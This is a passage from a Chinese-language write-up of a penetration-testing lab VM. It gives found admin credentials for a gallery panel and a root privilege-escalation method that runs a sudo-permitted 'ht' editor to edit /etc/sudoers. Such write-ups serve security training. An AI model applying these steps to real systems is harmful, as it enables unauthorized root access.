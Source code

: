 ```bash
由于目录爆破还有http://192.168.88.27/gallery/gadmin/,使用该账号成功登录gall管理后台
账号：admin
密码：n0t7t1k4

phpmyadmin都不是这些账号
```

## 提权

dreg账号就没啥权限，使用loneferret账号登录，发现有提示文件，发现可以使用编辑器

![image-20240701173900445](image/image-20240701173900445.png)

进行提权

```bash
sudo /usr/local/bin/ht #如果报错xterm-256color
export TERM=xterm
#alt+f，修改/etc/sudoers，添加给当前用户添加/bin/bash，即可提权
```

也可以使用其他方式提取，内核提取等
